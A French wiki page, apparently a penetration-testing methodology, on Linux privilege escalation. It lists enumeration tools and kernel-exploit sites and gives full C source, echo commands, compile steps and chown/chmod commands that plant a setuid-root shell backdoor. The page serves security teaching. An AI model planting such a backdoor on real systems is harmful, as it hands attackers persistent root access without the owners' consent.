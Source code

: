 ```yaml
---
title: Elevation de priviléges (Linux)
permalink: /Elevation_de_priviléges_(Linux)/
---
```


Enumération
-----------

Cette étape consiste à rassembler des informations pour élever ses privilèges. Il peut être utilise d'utiliser le script [LinuxPrivChecker](http://www.securitysift.com/download/linuxprivchecker.py) pour récupérer automatiquement les informations utiles.

### Exploits Kernels

En fonction de la version du Kernel utilisé, le site <https://www.kernel-exploits.com/> recense des exploits kernels pour différentes versions de Linux.

Shell Root
----------

Si on peut executer des commandes en tant que root, mais que l'on a pas encore un "vrai" shell root, il peut être utile de compiler un programme permettant de lancer un shell et lui mettre le bit suid.

``` c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/sh");
    return 0;
}
```

Dans un premier temps on créer le fichier permettra d'avoir un shell root:

``` bash
echo "#include <stdlib.h>"> main.c
echo "#include <stdio.h>">> main.c
echo "#include <unistd.h>">> main.c
echo "#include <sys/types.h>">> main.c
echo 'int main(){setuid(0);system("/bin/sh");return 0;}'>> main.c
```

Ensuite on le compile:

``` bash
gcc main.c -o suid
```

Ces deux étapes peuvent se faire sur une autre machine (notamment si gcc n'est pas présent). Ensuite il est nécessaire d’exécuter les commandes suivantes en tant que root:

``` bash
chown root:root suid
chmod ugo+s suid
```

Resources
---------

-   [G0tmi1k Blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
-   [Linux Exploit Suggester](https://github.com/PenturaLabs/Linux_Exploit_Suggester)
-   [PentestMonky unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check)
-   [LinuxPrivChecker](http://www.securitysift.com/download/linuxprivchecker.py)
-   [Kernel-Exploits](https://www.kernel-exploits.com/)
-   [Its Too Funky In Here04 Linux privilege escalation for fun profit and all around mischief](https://www.youtube.com/watch?v=dk2wsyFiosg)

[Category:Méthodologies](/Category:Méthodologies "wikilink")